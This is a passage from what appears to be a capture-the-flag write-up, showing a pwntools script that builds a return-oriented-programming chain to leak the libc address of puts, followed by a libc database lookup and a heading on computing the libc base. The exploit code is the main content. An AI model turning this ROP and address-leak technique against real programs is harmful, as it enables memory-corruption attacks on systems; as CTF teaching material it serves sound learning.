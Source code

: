 ```python


    # create rop chain

    # 0x000000000040122b : pop rdi ; ret
    pop_rdi = p64(0x000000000040122b)
    puts_got = p64(elf.got["puts"])
    puts_plt = p64(elf.plt["puts"])

    # return to main to excute again
    main_plt = p64(elf.symbols["main"])

    rop = pop_rdi + puts_got + puts_plt + main_plt

    # create buffer
    buffer = [
        padding,
        rop
        ]

buffer = b"".join(buffer)

# start process
print(p.recvuntil("\n"))
print(p.recvuntil("\n"))

# send the buffer
p.sendline(buffer)

# print address of put in libc
puts_address=u64(p.recvuntil("\n").strip().ljust(8,b"\x00"))
info(f"Puts address: {hex(puts_address)}")

# interact with process
p.interactive() 

if __name__ == "__main__":
main()

```

![leaked-puts-address](https://raw.githubusercontent.com/pwndumb/pwndumb.github.io/master/assets/img/commons/return-to-what/leaked-puts-address.png)

The script work as expected. Now I used one of many libc databases on internet do check what libc is. 

After check in [https://libc.nullbyte.cat/?q=puts%3Ad90](https://libc.nullbyte.cat/?q=puts%3Ad90). I confirm that is correct and in match to libc running n my system locally:

## Calculate libc base address

